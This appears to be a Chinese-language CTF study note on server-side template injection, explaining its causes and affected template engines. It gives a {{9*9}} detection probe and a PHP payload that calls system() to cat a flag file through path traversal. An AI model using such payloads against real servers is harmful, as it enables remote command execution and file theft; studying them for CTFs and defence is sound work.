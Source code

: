 什么是SSTI： SSTI 就是服务器端模板注入，ssti主要为python的一些框架 jinja2 mako tornado django，PHP框架smarty twig，java框架jade velocity等等使用了渲染函数时，由于代码不规范或信任了用户输入而导致了服务端模板注入，模板渲染其实并没有漏洞，主要是程序员对代码不规范不严谨造成了模板注入漏洞，造成模板可控。

漏洞成因就是服务端接收了用户的恶意输入以后，未经任何处理就将其作为Web应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShel1等问题。其影响范围主要取决于模版引擎的复杂性。    


CTF题SSTI:
```
一个网页可以参数传参回显，IP回显，UA回显，日志回显等。
通过回显的注入点注入验证：
{{9*9}}
回显81，则存在模板注入

解题：
大多数题目的flag均藏在系统中的某个文件内
通过模板注入解析读取文件。

php:
{{system("cat ../../../../../../flag")}}
```
python: jinja2 mako tornado django 
php: smarty twig Blade 
java: jade velocity jsp
大全：<https://www.cnblogs.com/bmjoker/p/13508538.html>
区分测试
![](.topwrite/assets/image_1713356299863.png)